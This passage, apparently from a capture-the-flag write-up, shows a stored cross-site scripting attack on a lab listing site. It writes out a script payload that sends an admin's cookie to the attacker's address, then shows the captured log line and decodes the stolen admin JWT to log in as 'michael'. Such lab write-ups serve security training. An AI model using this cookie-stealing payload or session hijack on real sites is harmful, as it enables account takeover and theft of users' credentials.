 
I made a listing with description :  `<script>fetch("http://10.14.12.121:8000/?u=ttest&data=" + btoa(document.cookie));</script>`

Then i reported this so a admin would look at it and send me his/her token cookie to login as an admin.


```
10.10.91.7 - - [24/Jul/2022 12:59:47] "GET /?data=dG9rZW49ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5U1dRaU9qSXNJblZ6WlhKdVlXMWxJam9pYldsamFHRmxiQ0lzSW1Ga2JXbHVJanAwY25WbExDSnBZWFFpT2pFMk5UZzJPREU1TmpOOS5rMEdfdTc1bDR4Wm9xakhCYTZtVFVfY3JWb1hfWkhQSDlqVGV5WC11OWdV HTTP/1.1" 200 -

```

If we base64 decode this and base64 decode the token itself, we see we get a `michael` login

```
{"alg":"HS256","typ":"JWT"}{"userId":2,"username":"michael","admin":true,"iat":1658414426}nЋ~о.)ыЇ„w:;Љ‚/•sр9¤x{–—0TК
```

We login to their backend and find the first THM Flag.
2


Lets use this token on the website and see what we can do

We get some sort of admin panel, nothing special.

as this is kind of a dead end, lets dirbust this webpage

